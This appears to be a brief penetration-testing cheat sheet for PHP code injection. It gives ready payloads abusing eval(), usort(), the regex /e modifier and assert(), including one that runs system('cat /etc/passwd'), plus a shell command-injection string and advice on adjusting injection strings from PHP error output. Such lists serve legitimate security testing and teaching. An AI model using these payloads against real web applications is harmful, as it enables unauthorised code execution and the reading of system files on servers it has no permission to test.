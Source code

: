 ### When injecting php, warning == find & error == not fine
### As you work through which characters complete the injection string, when you hit a character in the php error that was not in your string - try commenting the end of the string
#### Abuse eval() being used, inject a concatenated command:  
`".phpinfo();"`
#### usort()
`id);}phpinfo();//`
#### /e (evaluate) flag allowed in regex
`name=phpinfo();&pattern=/lamer/e&base=Hello lamer`  
#### Assert function being used (when used incorrectly assert will evaluate the value passed to it)
`name='.system('cat+/etc/passwd');'`  
#### Command injection  
`ip=127.0.0.1$(ls)` **May not provide output**
